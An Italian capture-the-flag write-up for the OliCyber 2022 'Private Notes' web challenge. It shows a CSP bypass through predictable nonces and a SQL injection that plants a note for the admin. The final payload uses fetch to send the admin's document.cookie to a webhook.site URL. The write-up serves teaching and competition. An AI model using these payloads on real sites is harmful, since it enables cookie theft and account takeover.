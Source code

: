 # OliCyber.IT 2022 - Competizione nazionale

## [web-2] Private Notes (2 risoluzioni)

La challenge consiste in un sito web che permette di creare delle note private senza bisongo di autenticazione.

Nel sito è anche presente un form per segnalare un url, che verrà visitato da un admin.

La flag è contenuta all'interno del cookie dell'admin.

### Soluzione

La creazione delle note permette di inserire html all'interno della pagina, senza nessun controllo.

Ottenere XSS non è però immediato, a causa della CSP che stabilisce quali script possono essere eseguiti nella pagina.

L'header CSP restituito dalla pagina è nel seguente formato
`Content-Security-Policy: script-src 'nonce-RcSMzi4tf73qGvxRx8atJg==';`

Questo header stabilisce che un tag `script` potrà essere eseguito in questa pagina solo se ha come attributo `nonce="RcSMzi4tf73qGvxRx8atJg==`.

Per riuscire a bypassare una CSP di questo tipo bisogna poter prevedere il nonce generato e inserirlo all'interno del tag script che si vuole eseguire.

Analizzando la generazione del nonce:

```javascript
const random = parseInt(Math.random() * 100000000000000000000000);
res.locals.csp_nonce = crypto
  .createHash("md5")
  .update(`${random}`)
  .digest("base64");
```

La funzione `parseInt` viene usata incorrettamente, dovrebbe essere usata per trasformare una stringa in un intero.

Usando questa funzione con un numero come input le trasformazioni applicate sono:
`Numero -> Stringa -> Numero`

I numeri random che vengono convertiti sono molto grandi, in questo caso la conversione si comporta in questo modo:
`74296751904041288062370 -> "7.429675190404129e+22" -> 7`

A causa di questo bug, il numero random generato è nella stragrande maggioranza dei casi un numero tra 1 e 9.

Grazie a questa informazione si possono generare i 9 possibili tag con i rispettivi nonce per ottenere XSS.

I tag devono essere inseriti all'interno di un iframe per assicurare che venga tentata l'esecuzione da parte del browser, essendo inseriti dopo il rendering all'interno dell'html.

Esempio di payload per ottenere XSS:

```html
<iframe
  srcdoc="<script nonce=xMpCOKC5I4INzFCab3WEmw==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=yB5yjZ1ML2NvBn+JzBSGLA==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=7MvIfktc4v4oMI/Z8qe68w==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=qH/2eaLz5x2RgaZ7dUISLA==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=5No7f7vOI0XXdysGdKMY1Q==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=FnkJHFqID69vteYIfrGy3A==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=jxTkX87qFnpaNt7dS+olQw==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=yfD4lfuYq5FZ9R/QKX4jbQ==>alert(1)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=RcSMzi4tf73qGvxRx8atJg==>alert(1)</script>"
></iframe>
```

Fino a questo momento l'XSS è possibile solo nei confronti di chi ha creato la nota con il payload, per poter ottenere XSS sul bot dell'admin bisogna inserire una nota a suo nome.

Per farlo si può sfruttare la SQL injection presente nella creazione della nota.

`` await db_get(`INSERT INTO notes (noteid, userid, content) VALUES (${noteid}, ${req.loggedUserId}, '${content}')`)  ``

Il contenuto è controllato da noi e può essere sfruttato per inserire un altra riga nella tabella `notes`.

Inserendo come contenuto `aaa'), (1337,1,'payload` verrà creata una nota con id 1337 e contenuto "payload" visibile solo dall'utente con id 1.

### Exploit

Sapendo che l'user_id usato dall'admin è 0 (visibile in `bot.js`) possiamo mettere insieme gli step descritti e rubare il cookie all'admin.

Il payload finale può essere:

```html
AAA'), (1337,0,'
<iframe
  srcdoc="<script nonce=xMpCOKC5I4INzFCab3WEmw==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=yB5yjZ1ML2NvBn+JzBSGLA==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=7MvIfktc4v4oMI/Z8qe68w==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=qH/2eaLz5x2RgaZ7dUISLA==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=5No7f7vOI0XXdysGdKMY1Q==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=FnkJHFqID69vteYIfrGy3A==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=jxTkX87qFnpaNt7dS+olQw==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=yfD4lfuYq5FZ9R/QKX4jbQ==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
<iframe
  srcdoc="<script nonce=RcSMzi4tf73qGvxRx8atJg==>fetch(`https://webhook.site/a3e62b3a-7ebb-43d6-a753-2ffe70ab38c1/?`+document.cookie)</script>"
></iframe>
```

Per eseguire la XSS basta inviare l'url `privatenotes.challs.olicyber.it/notes#1337` da visitare al bot. Il cookie verrà così inviato al nostro webhook.

La flag è encodata dentro il jwt dell'admin, per leggerla basta decodificare il base64 o usare un decoder come quello presente su `jwt.io`
